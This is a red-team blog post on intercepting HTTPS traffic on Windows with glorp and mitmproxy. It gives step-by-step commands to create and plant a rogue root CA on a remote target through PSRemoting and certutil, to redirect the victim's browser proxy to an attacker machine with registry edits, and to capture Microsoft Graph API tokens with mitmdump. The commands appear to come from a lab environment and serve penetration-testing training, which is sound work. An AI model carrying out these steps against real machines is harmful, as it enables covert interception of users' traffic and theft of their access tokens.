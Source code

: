```yaml
---
title: A Practical Approach to Windows HTTPS Interception for Engagements
date: 2022-10-21 09:48:47 +07:00
categories: RedTeaming
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Windows HTTPS Interception
#thumbnail: "https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Paces_Review/lab.png"
#image: "https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Paces_Review/lab.png"
---
```


# HTTPS sniffing on local target

## Execution with glorp setup on local target

[Glorp](https://github.com/denandz/glorp) is an intercepting proxy with functionality similar to Burp Suites proxy and repeater tabs, this makes it ideal for HTTPS sniffing / inspection. 

This tool is fully CLI based and dosen't require any additional dependencies like python3 on Windows to function.

Begin by downloading the precompiled windows binary from: https://github.com/denandz/glorp/releases

```
PS C:\Tools> wget https://github.com/denandz/glorp/releases/download/v0.1.5/glorp-v0.1.5-windows-amd64 -o glorp.exe
```

Next on Windows / WSL generate a CA certificate pair as follows:

```
m3rcer@GHOUL:/mnt/c/Tools$ openssl genrsa -out ca.key 2048
m3rcer@GHOUL:/mnt/c/Tools$ openssl req -x509 -new -nodes -key ca.key -sha256 -days 1825 -out ca.crt -subj '/CN=GlorpCA'
```

In Chrome, go to the `Settings` tab --> `Privacy and Security` --> `Manage device certificates` --> select the `Trusted Root Certification Authorities` tab.

![](Pasted%20image%2020230920141925.png)

Select `Import` and import `ca.crt` into the `Trusted Root Certification Authorities` store. 

![](Pasted%20image%2020230920141956.png)

Select `Yes` when prompted.

![](Pasted%20image%2020230920142042.png)

![](Pasted%20image%2020230920142135.png)

Now search `Proxy Settings` in the Windows search bar and add the following Manual Proxy setup and select `Save`:

![](Pasted%20image%2020230920142355.png)

Finally, in an elevated cmd / powershell prompt start glorp with the trusted CA certificate and key.

```
PS C:\Tools> .\glorp.exe -cert ca.crt -key ca.key
```

![](Pasted%20image%2020230920142619.png)

Back on Chrome navigate to https://login.microsoftonline.com/ or the https site you would like to sniff/intercept.

![](Pasted%20image%2020230920143148.png)

To understand various possible operations to proxy, replay or save output as .json read the UI Usage at: https://github.com/denandz/glorp#ui-usage

<div style="page-break-after: always;"></div>

---------

# HTTPS Sniffing using shell or PSRemote acess

## Execution with glorp setup on remote target

Executing glorp in a PSremoting or winrs session spawns glorp but output cannot be seen nor written unless source is modified. However, we can execute glorp locally and have the target connect to our local proxy if network connectivity / port forwarding is possible .

This setup is showcased using the example:

Attacker: `(172.16.10.1)`
Target: `(172.16.100.11)`
`administrator` is a local admin on `172.16.100.11`

Begin by setting up Glorp with the `ca.key` can `ca.crt` files on the attacker machine - `cb-ca`:

```
C:\Tools> .\glorp.exe -cert ca.crt -key ca.key -addr 172.16.10.1 -port 8080
```

Now the only requirement on the target - `cb-ws11` is the installation of `ca.crt` in the `Trusted Root Certification Authorities` store.  This can be done remotely with PSremoting using certutil.

```
PS C:\Users\Administrator.CB-CA> $session = New-PSSession -cn cb-ws11.certbulk.cb.corp

PS C:\Users\Administrator.CB-CA> Copy-Item C:\Tools\ca.crt -Destination C:\ -ToSession $session

PS C:\Users\Administrator.CB-CA> Enter-PSSession -Session $session

[cb-ws11.certbulk.cb.corp]: PS C:\> certutil -addstore Root C:\ca.crt
Root "Trusted Root Certification Authorities"
Signature matches Public Key
Certificate "GlorpCA" added to store.
CertUtil: -addstore command completed successfully.
```

Now forcefully set the `Proxy Settings`  to use our glorp proxy ( `172.16.10.1:8080`) hosted at `cb-ca` using PowerShell or other netsh equivalents. This adds the settings for the current logged in user.

*NOTE: Check firewall rules to unblock the proxy port.*

```
[cb-ws11.certbulk.cb.corp]: PS C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyEnable /t REG_DWORD /d 1 /f

[cb-ws11.certbulk.cb.corp]: PS C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer /t REG_SZ /d "172.16.10.1:8080" /f

```

To disable it you can use this PowerShell command:

```
Set-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings' -Name ProxyEnable -Value 0
```

Now when `cb\administrator` on `cb-ws` navigates to a site using a browser like Chrome, it would be proxied to `cb-ca` where glorp intercepts and forwards the traffic to the respective site.

Some ways to add it for all users are outlined here: https://stackoverflow.com/questions/16221250/add-a-key-to-hkey-current-user-for-all-users

## Complete remote execution using mitmproxy

A similar tools exists called mitmproxy, download compiled binaries from: https://mitmproxy.org/downloads/#10.0.0/

Documentation: https://docs.mitmproxy.org/

mitmproxy is packaged with 3 tools for various functionality:
- mitmproxy: UI based proxy similar to glorp as above (not applicable for PSRemoting)
- mitmweb: spawns a web based UI which can be used to view remotely if we have network access
- mitmdump: a full CLI without UI

Download compiled binaries (only mitmdump is required) from: https://mitmproxy.org/downloads/#10.0.0/

To install the CA certificate, execute mitmdump once as follows and visit mitm.it to download the Windows .p12 CA certificate.

```
PS C:\Tools\mitmproxy-10.0.0-windows> .\mitmdump.exe
```

![](Pasted%20image%2020230921170326.png)

Next, double click the download .p12 certificate to install it in the `Trusted Root Certification Authorities` store. 

![](Pasted%20image%2020230921170539.png)

![](Pasted%20image%2020230921170605.png)

Select `Yes` when prompted.

![](Pasted%20image%2020230921170711.png)

Finally, create a PSRemote session as in objective and transfer tools and execute the following command remotely to intercept the GraphAPIToken (we use regex filters to only look for `graph.microsoft.com`):

```
[WIN-JH5F00D8313.nerd.corp]: PS C:\Tools\mitmproxy-10.0.0-windows> .\mitmdump.exe -w content.log --flow-detail 2 graph\.microsoft\.com
```

It is possible to view the content in real time as above or analyse the written output using the following command:

```
[cb-ca.cb.corp]: PS C:\Tools\mitmproxy-10.0.0-windows> .\mitmdump.exe -r content.log --flow-detail 2
```